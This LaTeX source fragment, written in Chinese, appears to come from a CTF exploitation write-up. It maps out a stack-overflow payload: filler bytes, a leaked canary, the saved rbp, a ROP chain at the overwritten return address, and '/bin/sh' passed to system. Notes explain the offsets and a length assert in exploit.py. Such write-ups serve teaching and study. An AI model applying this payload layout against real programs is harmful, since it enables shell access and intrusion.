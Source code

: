 \documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
payload 索引       內容                        會被複製到 state 的位置
------------------------------------------------------------------------
payload[0]        = 0x02（opcode APPEND）     （不複製，它是 opcode）
payload[1..0x108] = 'B' * 0x108              state[0x000..0x107]
payload[0x109..0x110] = canary（洩漏到的）    state[0x108]  ← 金絲雀槽
payload[0x111..0x118] = saved rbp（原值）     state[0x110]  ← saved rbp
payload[0x119..0x120] = chain[0]             state[0x118]  ← 回傳位址！
payload[0x121..]      = chain[1], chain[2]…  state[0x120..] ← ROP 本體
...
payload[0x1f0..0x1f7] = "/bin/sh\0"          留在 .bss:0x4a54 當 system 的參數
payload[0x1f8..0x1ff] = 補 0                  state[0x1f7..0x1fe]（不重要）
\end{Verbatim}

\begin{quote}
記法：\textbf{\texttt{state{[}i{]}\ \allowbreak{}=\ \allowbreak{}payload{[}i+1{]}}}（append 從
\texttt{payload+1} 開始複製）。這是我自己踩過的坑（見 §11）。
\end{quote}

\begin{quote}
※提示 \textbf{\texttt{chain{[}0{]}} 在
\texttt{state{[}0x118{]}}，\texttt{state{[}0x120{]}} 是「\texttt{ret}
之後 \texttt{rsp} 的位置」} （\texttt{exploit.\allowbreak{}py}
的註解也是這樣寫的：\texttt{chain{[}0{]}} 蓋在被劫持的回傳位址
\texttt{state{[}0x118{]}}， 其餘的鏈從 \texttt{state{[}0x120{]}}
開始）。兩句話講的是不同的格子： * \texttt{state{[}0x118{]}} =
\textbf{被蓋掉的那格回傳位址} = \texttt{chain{[}0{]}}（對齊用
\texttt{ret}） * \texttt{state{[}0x120{]}} = 對齊用 \texttt{ret}
執行完後 \texttt{rsp} 指到的地方 =
\texttt{chain{[}1{]}}（\texttt{pop\ \allowbreak{}rdi;\ \allowbreak{}ret}）

\textbf{\texttt{state{[}0x1ff{]}} 這一格}：append 多讀的那 1 個 byte
就是這個訊框自己的 CRC byte （實測值 \texttt{0xcd}），它來自 payload
\textbf{後面}那一格、不是 payload 裡的任何 byte。 這裡 capacity
已經用不到了，所以填什麼都無所謂 ------ 但別以為那是你能控制的 byte。
\end{quote}

\begin{quote}
※修正 \textbf{\texttt{assert} 是你的安全網}：\texttt{exploit.\allowbreak{}py} 裡有
\texttt{assert\ \allowbreak{}len(payload)\ \allowbreak{}==\ \allowbreak{}0x200}。
訊框長度錯了就讓它早點炸，不要讓程式去猜 ------ 差一個 byte 的 payload
會讓 \texttt{state{[}i{]}\ \allowbreak{}=\ \allowbreak{}payload{[}i+1{]}} 整體位移，結果是 canary
對不上、你卻完全看不出原因。
\end{quote}
\end{document}
